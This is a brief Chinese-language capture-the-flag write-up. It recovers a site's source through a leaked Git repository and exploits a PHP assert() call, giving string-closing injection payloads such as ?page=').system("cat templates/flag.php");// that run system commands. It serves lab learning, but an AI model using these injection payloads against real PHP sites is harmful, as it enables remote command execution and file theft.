 ![img](./assets/wps618.jpg)

 

个人网站

 

点击About页面，发现网站使用Git、PHP、Bootstrap搭建而成

 

![img](./assets/wps619.jpg) 

可能存在git源码泄露

利用githack

得到网站源码

![img](./assets/wps620.jpg) 

 

分析源码

存在assert()函数

![img](./assets/wps621.jpg) 

利用assert()命令执行

首先 GET 一个 page，然后与前缀文件夹 templates/ 拼接，并与后缀 .php 拼接，访问最 终的页面。代码中不允许输入的字符中包含连续的两个点，否则就返回错误。这段代码中只 用黑名单过滤了两个点，我们可以想办法绕过。我们可以让它先行闭合，如：

?page=').phpinfo();//，这样，在进行过滤时，便成了： 

assert("strpos('templates/').phpinfo();//,'..')===false") or die(); 

如此，会把 ,'..')===false" 这些后面的东西注释掉

 

构造payload：

?/page=').system("cat templates/flag.php");//

 

?/page=') or system("cat templates/flag.php");//

 